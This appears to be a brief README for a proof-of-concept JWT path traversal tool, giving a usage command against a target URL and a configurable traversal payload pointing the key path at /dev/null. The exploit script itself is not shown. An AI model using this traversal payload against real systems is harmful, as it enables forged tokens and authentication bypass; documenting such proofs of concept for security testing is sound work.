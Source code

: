 # PoC JWT Path Transversal

## Usage mode

```bash
python3 jpath.py -u http://<url>.com
```


Change this line for other path
```python
exploit = "../../../../../../../../../../dev/null"
```